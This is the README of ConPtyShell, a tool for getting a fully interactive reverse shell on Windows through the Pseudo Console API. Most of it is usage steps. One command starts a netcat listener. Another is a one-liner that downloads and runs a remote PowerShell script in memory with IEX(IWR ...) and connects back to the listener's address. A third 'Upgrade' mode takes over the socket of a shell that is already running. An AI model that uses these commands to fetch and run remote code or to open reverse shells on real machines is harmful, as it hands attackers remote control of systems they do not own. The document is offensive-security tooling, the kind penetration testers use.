 # ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your bash in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default powershell.exe) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic flag "Upgrade" that transform your current shell in a fully interactive one, use it if you don't want to use a new connection and want to hijack your current shell socket :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">CreatePseudoConsole()</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal netcat-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>

## Usage

It's important to have the same rows and cols size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the rows and cols parameters to Invoke-ConPtyShell function:

##### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the tcp listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade
You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```

## Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo
Below you can watch 2 demos. The first gif using the **Method 1** with the compiled assemlby in exe format, the second gif is showing the **Method 3** by upgrading your current shell with the ps1 script:

#### Method 1

<img src="demo_1.gif">

#### Method 3 - Upgrade demo

<img src="demo_2.gif">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## Credits

- LupMan
